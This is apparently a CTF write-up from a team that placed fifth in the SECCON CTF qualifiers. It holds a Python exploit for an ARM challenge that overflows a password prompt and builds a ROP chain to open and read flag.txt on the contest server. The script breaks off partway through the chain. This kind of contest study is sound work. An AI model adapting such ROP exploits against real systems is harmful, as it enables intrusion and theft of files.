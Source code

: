 ## SECCON CTF Quals

### Overview

This time we won the 5th place in the game. Top 12 will be engaged in the final
at Tokyo, Japan on Feb. 6th. Here are some exploits I wrote during the game.

### Exploitation 300 arm

Simple ROP on ARM. Open 'flag.txt', read the content and then write back.

```python
#!/usr/bin/python
import struct
import socket
import telnetlib

def readuntil(f, delim='\n'):
    data = ''
    while not data.endswith(delim):
        data += f.read(1)
    return data

def p(v):
    return struct.pack('<I', v)

def u(v):
    return struct.unpack('<I', v)[0]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('micro.pwn.seccon.jp', 10001))
f = s.makefile('rw', bufsize=0)

print readuntil(f, 'Input password: ');

flag_txt_addr = 0x4355
pop_r4_r5_r6_pc = 0x4220
mov_r0_r4_pop_r4_r5_r6_pc = 0x421c
ldmfd = 0x42b0
syscall_ret = 0x404c
printout = 0x42ec

rop = 'A' * 28
rop += p(pop_r4_r5_r6_pc)
rop += p(0x5) # r4 -> open
rop += p(0x41414141) * 2
rop += p(mov_r0_r4_pop_r4_r5_r6_pc) # pc

rop += p(0x41414141) * 3
rop += p(ldmfd) # pc

rop += p(flag_txt_addr) # r1 'flag.txt' addr
rop += p(0x0) # r2 flags
rop += p(0x0) # r3 mode
rop += p(0x41414141) * 4 # r4 - r6, r11

rop += p(syscall_ret)

rop += p(pop_r4_r5_r6_pc)
rop += p(0x3) # r4 -> read
rop += p(0x41414141) * 2
rop += p(mov_r0_r4_pop_r4_r5_r6_pc) # pc

```
